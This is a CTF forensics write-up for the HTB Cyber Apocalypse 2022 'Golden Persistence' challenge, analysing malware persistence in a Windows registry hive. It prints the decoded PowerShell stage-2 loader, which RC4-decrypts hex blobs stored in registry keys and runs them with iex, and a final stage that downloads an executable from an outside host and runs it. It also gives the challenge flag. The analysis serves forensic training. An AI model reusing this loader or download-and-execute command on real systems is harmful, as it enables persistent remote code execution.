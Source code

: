```yaml
---
title: "HTB Cyber Apocalypse CTF 2022"
categories: [Writeups]
layout: post 
---
```


# HTB Cyber Apoclypse CTF 2022 Writeups

## Team Placing: #99 / 7024

![](/assets/img/writeups/HTBCyberApocalypse2022/certificate.jpg)

## Categories
* ### Forensics
    * #### [Golden Persistence](#challenge-golden-persistence)

-------------------------------------------------------------------------------

### Challenge: Golden Persistence
### Category: Forensics

## Description:

![](/assets/img/writeups/HTBCyberApocalypse2022/forensics_golden_persistence.png)

## Walkthrough:

We're provided a `NTUSER.DAT` file which contains the `HKEY_CURRENT_USER` registry hive in Windows. Based off the challenge title and description, we know we're looking for some persistence within the registry. One of the most common mechanisms for persistence within the registry is by using the `Run` registry key which is used to run a program every time a user logs on.

So we can use a tool from Eric Zimmerman called [Registry Explorer](https://ericzimmerman.github.io/#!index.md) to easily view the registry hive mentioned before. The `Run` registry key is located in `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run` so let's check that out first:

![](/assets/img/writeups/HTBCyberApocalypse2022/Golden%20Persistence%20Writeup.001.png)

We can quickly see that there is a PowerShell payload which appears to be Base64 encoded. We can use CyberChef to quickly decode this and save to a file called `stage2.ps1`:
```powershell
function encr {
    param(
        [Byte[]]$data,
        [Byte[]]$key
      )
 
    [Byte[]]$buffer = New-Object Byte[] $data.Length
    $data.CopyTo($buffer, 0)
    
    [Byte[]]$s = New-Object Byte[] 256;
    [Byte[]]$k = New-Object Byte[] 256;
 
    for ($i = 0; $i -lt 256; $i++)
    {
        $s[$i] = [Byte]$i;
        $k[$i] = $key[$i % $key.Length];
    }
 
    $j = 0;
    for ($i = 0; $i -lt 256; $i++)
    {
        $j = ($j + $s[$i] + $k[$i]) % 256;
        $temp = $s[$i];
        $s[$i] = $s[$j];
        $s[$j] = $temp;
    }
 
    $i = $j = 0;
    for ($x = 0; $x -lt $buffer.Length; $x++)
    {
        $i = ($i + 1) % 256;
        $j = ($j + $s[$i]) % 256;
        $temp = $s[$i];
        $s[$i] = $s[$j];
        $s[$j] = $temp;
        [int]$t = ($s[$i] + $s[$j]) % 256;
        $buffer[$x] = $buffer[$x] -bxor $s[$t];
    }
 
    return $buffer
}


function HexToBin {
    param(
    [Parameter(
        Position=0, 
        Mandatory=$true, 
        ValueFromPipeline=$true)
    ]   
    [string]$s)
    $return = @()
    
    for ($i = 0; $i -lt $s.Length ; $i += 2)
    {
        $return += [Byte]::Parse($s.Substring($i, 2), [System.Globalization.NumberStyles]::HexNumber)
    }
    
    Write-Output $return
}

[Byte[]]$key = $enc.GetBytes("Q0mmpr4B5rvZi3pS")
$encrypted1 = (Get-ItemProperty -Path HKCU:\SOFTWARE\ZYb78P4s).t3RBka5tL
$encrypted2 = (Get-ItemProperty -Path HKCU:\SOFTWARE\BjqAtIen).uLltjjW
$encrypted3 = (Get-ItemProperty -Path HKCU:\SOFTWARE\AppDataLow\t03A1Stq).uY4S39Da
$encrypted4 = (Get-ItemProperty -Path HKCU:\SOFTWARE\Google\Nv50zeG).Kb19fyhl
$encrypted5 = (Get-ItemProperty -Path HKCU:\AppEvents\Jx66ZG0O).jH54NW8C
$encrypted = "$($encrypted1)$($encrypted2)$($encrypted3)$($encrypted4)$($encrypted5)"
$enc = [System.Text.Encoding]::ASCII
[Byte[]]$data = HexToBin $encrypted
$DecryptedBytes = encr $data $key
$DecryptedString = $enc.GetString($DecryptedBytes)
$DecryptedString|iex
```

To summarize the script, it grabs the values within other registry keys in the hive and concatenates them:
```powershell
$encrypted1 = (Get-ItemProperty -Path HKCU:\SOFTWARE\ZYb78P4s).t3RBka5tL
$encrypted2 = (Get-ItemProperty -Path HKCU:\SOFTWARE\BjqAtIen).uLltjjW
$encrypted3 = (Get-ItemProperty -Path HKCU:\SOFTWARE\AppDataLow\t03A1Stq).uY4S39Da
$encrypted4 = (Get-ItemProperty -Path HKCU:\SOFTWARE\Google\Nv50zeG).Kb19fyhl
$encrypted5 = (Get-ItemProperty -Path HKCU:\AppEvents\Jx66ZG0O).jH54NW8C
$encrypted = "$($encrypted1)$($encrypted2)$($encrypted3)$($encrypted4)$($encrypted5)"
```

It then hex decodes these strings using the defined `HexToBin` function:
```powershell
[Byte[]]$data = HexToBin $encrypted
```

Finally, it decrypts these bytes using the defined `encr` function and executes the decrypted string using `iex` [(Invoke-Expression)](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-7.2)

```powershell
$DecryptedBytes = encr $data $key
$DecryptedString = $enc.GetString($DecryptedBytes)
$DecryptedString|iex
```

Now that we have an idea of what is occurring, let's grab those hex strings I mentioned from the registry. Registry Explorer has a handy search feature which makes this easy:

![](/assets/img/writeups/HTBCyberApocalypse2022/Golden%20Persistence%20Writeup.002.png)

After grabbing the hex strings, now we can just make the script work for us by replacing the encrypted variables with the correct hex string and ensuring we comment out the `iex` so we do not actually execute the potentially malicious payload:

```powershell
# $encrypted1 = (Get-ItemProperty -Path HKCU:\SOFTWARE\ZYb78P4s).t3RBka5tL
$encrypted1 = "F844A6035CF27CC4C90DFEAF579398BE6F7D5ED10270BD12A661DAD04191347559B82ED546015B07317000D8909939A4DA7953AED8B83C0FEE4EB6E120372F536BC5DC39"
#$encrypted2 = (Get-ItemProperty -Path HKCU:\SOFTWARE\BjqAtIen).uLltjjW
$encrypted2 = "CC19F66A5F3B2E36C9B810FE7CC4D9CE342E8E00138A4F7F5CDD9EED9E09299DD7C6933CF4734E12A906FD9CE1CA57D445DB9CABF850529F5845083F34BA1"
#$encrypted3 = (Get-ItemProperty -Path HKCU:\SOFTWARE\AppDataLow\t03A1Stq).uY4S39Da
$encrypted3 = "C08114AA67EB979D36DC3EFA0F62086B947F672BD8F966305A98EF93AA39076C3726B0EDEBFA10811A15F1CF1BEFC78AFC5E08AD8CACDB323F44B4D"
#$encrypted4 = (Get-ItemProperty -Path HKCU:\SOFTWARE\Google\Nv50zeG).Kb19fyhl
$encrypted4 = "D814EB4E244A153AF8FAA1121A5CCFD0FEAC8DD96A9B31CCF6C3E3E03C1E93626DF5B3E0B141467116CC08F92147F7A0BE0D95B0172A7F34922D6C236BC7DE54D8ACBFA70D1"
#$encrypted5 = (Get-ItemProperty -Path HKCU:\AppEvents\Jx66ZG0O).jH54NW8C
$encrypted5 = "84AB553E67C743BE696A0AC80C16E2B354C2AE7918EE08A0A3887875C83E44ACA7393F1C579EE41BCB7D336CAF8695266839907F47775F89C1F170562A6B0A01C0F3BC4CB"
$encrypted = "$($encrypted1)$($encrypted2)$($encrypted3)$($encrypted4)$($encrypted5)"
$enc = [System.Text.Encoding]::ASCII
[Byte[]]$data = HexToBin $encrypted
$DecryptedBytes = encr $data $key
$DecryptedString = $enc.GetString($DecryptedBytes)
$DecryptedString#|iex
```

Running the `stage2.ps1` script, we get even more PowerShell code:

```powershell
$path ="C:\ProgramData\windows\goldenf.exe";$exists = Test-Path -Path $path -PathType Leaf;if ( $exists ){Start-Process $path}else{mkdir "C:\ProgramData\windows";Invoke-WebRequest -Uri https://thoccarthmercenaries.edu.tho/wp-content/goldenf.exe -OutFile $path;$flag="HTB{g0ld3n_F4ng_1s_n0t_st34lthy_3n0ugh}";Start-Process $path}
```

And here it is cleaned up a bit:

```powershell
$path ="C:\ProgramData\windows\goldenf.exe";
$exists = Test-Path -Path $path -PathType Leaf;
if ( $exists ){
    Start-Process $path
}else{
    mkdir "C:\ProgramData\windows";
    Invoke-WebRequest -Uri https://thoccarthmercenaries.edu.tho/wp-content/goldenf.exe -OutFile $path;
    $flag="HTB{g0ld3n_F4ng_1s_n0t_st34lthy_3n0ugh}";
    Start-Process $path
}
```

We can see the script checks to see if `goldenf.exe` exists at the specified path, if it does it will simply execute- otherwise it will download the executable and then execute. 

And there's also our flag!

### Flag: HTB{g0ld3n_F4ng_1s_n0t_st34lthy_3n0ugh}